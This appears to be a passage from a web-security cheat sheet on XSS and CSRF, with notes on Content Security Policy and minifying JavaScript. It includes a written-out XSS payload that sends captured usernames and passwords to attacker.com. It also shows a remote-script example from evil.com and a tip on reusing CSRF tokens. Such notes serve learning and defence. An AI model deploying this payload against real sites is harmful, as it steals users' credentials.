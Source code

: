 ### Capture passwords

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Perform CSRF

* When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.
* If the site use a token you can get it doing a first request and then add the token in a second request

---

## Content security policy

CSP restrict the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages. CSP defends against XSS attacks in the following ways

* Restricting Inline Scripts
  * `<script>document.body.innerHTML='defaced'</script>` will not work
* Restricting Remote Scripts
  * `<script src="https://evil.com/hacked.js"></script>` will not work
* Restricting Unsafe JavaScript
* Others [https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)

---

## Compress & minify JavaScript

You can compress and minify your JS by using tools like [JSCompress](https://jscompress.com/).
